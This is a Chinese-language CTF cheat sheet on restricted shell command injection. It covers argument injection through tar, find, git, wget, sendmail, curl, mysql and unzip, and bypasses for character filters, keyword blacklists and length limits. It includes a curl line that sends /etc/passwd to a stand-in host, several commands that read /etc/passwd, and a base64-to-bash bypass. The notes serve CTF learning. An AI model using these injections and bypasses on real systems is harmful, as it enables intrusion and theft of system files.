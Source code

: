 # 带限制的shell命令执行

## 收藏文章

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

https://www.anquanke.com/post/id/107336

## 可控位置

### 参数部分可控

1. 尝试用`;,&,|,反引号`等来直接执行命令
2. 限制第一种情况,翻一翻参数表,找到可利用的参数



#### 参数注入

##### tar

关键参数:--use-compress-program=

可以造成命令执行

例子:

```shell
tar --use-compress-program='cat /etc/passwd' -cf 2.tar *
cat 2.tar
```



##### find

关键参数: -exec 

例子:` find . -type f -exec 命令 \; -quit`

` find . -type f -exec cat /etc/passwd \; -quit`

` find . -type f -exec echo hello \; -quit`



##### git

关键参数:--open-files-in-pager=

例子:`git grep -i --line-number -e '--open-files-in-pager=命令;' master`

##### wget

关键参数:--directory-prefix

下载example.php

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

下载并将其保存在特殊位置

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

##### sendmail

发送mail.txt。设置来信人为:from@sth.com

`sendmail -t -i -f from@sth.com < mail.txt`

打印/etc/passwd的内容

`sendmail -t -i -f from@sth.com -C/etc/passwd -X/tmp/output.txt < mail.txt`

##### curl

关键参数:-F

下载网页内容:

`curl http://example.com`

将/etc/passwd 发送到http://example.com:xxxx配合监听获取文件内容

`curl -F password=@/etc/passwd http://example.com`

![](http://ww1.sinaimg.cn/large/006pWR9agy1g68qtlpvsqj30nj0iiq4n.jpg)

##### mysql

执行sql语句

`mysql -uuser -ppassword -e  SELECT sth FROM table`

执行命令

`mysql -uuser -ppassword -e  \! 命令`

##### untar

Unpack all `*.tmp` files from `archive.zip` into `/tmp` directory.

```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));
```

Unpack all `*.tmp` files from `archive.zip` into `/var/www/html` directory.

```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');
```

### 命令部分可控



1. 尝试直接执行命令



## 限制条件

### 字符限制

#### 利用linux统配符来匹配文件绕过字符限制

执行cat命令可以用

`/b?n/c?t .....`



#### 某些特殊字符的相互替换

##### 空格

\t和\r和\n代替空格

`$IFS$9` 符号 `${IFS}` 符号代替空格



### 单词黑名单

#### 利用"",'',和\`\` 来绕过单词黑名单

如`l''s,l""s`,l\`\`s

#### 利用字符串操作如base64,rot等等来绕过单词黑名单

\`echo "base64编码"|base64 -d\`和`echo "base64编码"|base64 -d|bash`

#### 变量名拼接

`a=ec;b=ho;$a$b hello`





### 输入长度限制

#### 短命令执行

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

关键命令:

- ls 

-t :按照最后修改时间排序

- sh

#### 实例

```shell
>lo\\
>\ hel\\
>echo\\
ls -t>_
sh _
```